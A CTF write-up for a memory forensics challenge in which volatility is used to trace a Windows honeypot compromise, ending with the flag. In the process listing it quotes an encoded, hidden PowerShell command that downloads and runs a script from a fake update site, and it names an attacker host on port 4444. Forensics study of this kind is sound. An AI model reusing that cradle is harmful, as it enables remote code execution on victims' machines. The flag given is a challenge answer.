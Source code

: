 ```yaml
---
# Obsidian
tags:
- ctf
- 2021-cybersanta
- forensics
- windows
- memory
- volatility

# Jekyll
layout: ctf
type: problem

# Problem info
ctf: 2021-cybersanta
category: forensics
title: Honeypot
points: 300
solved: true
---
```


# Honeypot

## Instructions

Santa really encourages people to be at his good list but sometimes he is a bit naughty himself. He is using a Windows 7 honeypot to capture any suspicious action. Since he is not a forensics expert, can you help him identify any indications of compromise?  
  
1. Find the full URL used to download the malware.  
2. Find the malicious's process ID.  
3. Find the attackers IP  
  
Flag Format: HTB{echo -n "http://url.com/path.foo_PID_127.0.0.1" | md5sum}  
Download Link: [honeypot.raw](#)

## Prerequisites

Python `requirements.txt`:

```bash
volatility3
yara-python
pycryptodome
capstone
```

## Solution

By dumping the memory for the Internet Explorer process at pid 3344 with volatility and grepping for all http links we come across the website where the malware was downloaded from.
```
$ vol -f ../honeypot.raw windows.vadinfo --pid 3344 --dump
$ cat * | grep http
https://windowsliveupdater.com/christmas_update.hta
```

Listing the full command arguments for each process we can see that the powershell.exe process is downloading and running a script from that same fake update website.
```shell
$ vol -f ../honeypot.raw windows.cmdline
2700	powershell.exe	"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" /window hidden /e aQBlAHgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcABzADoALwAvAHcAaQBuAGQAbwB3AHMAbABpAHYAZQB1AHAAZABhAHQAZQByAC4AYwBvAG0ALwB1AHAAZABhAHQAZQAuAHAAcwAxACcAKQApAA==
```

Lastly, the network connections show an established connection with port 4444 to the host 147.182.172.189. This is the attacker's IP address.

```shell
$ vol -f ../honeypot.raw windows.netscan
Offset	Proto	LocalAddr	LocalPort	ForeignAddr	ForeignPort	State	PID	Owner	Created
0x3ee98d80	TCPv4	10.0.2.15	49229	147.182.172.189	4444	ESTABLISHED	-	-	-
```

Putting all the information together:
```shell
echo -n "https://windowsliveupdater.com/christmas_update.hta_2700_147.182.172.189" | md5sum
969b934d7396d043a50a37b70e1e010a  -

```

```
HTB{969b934d7396d043a50a37b70e1e010a}
```


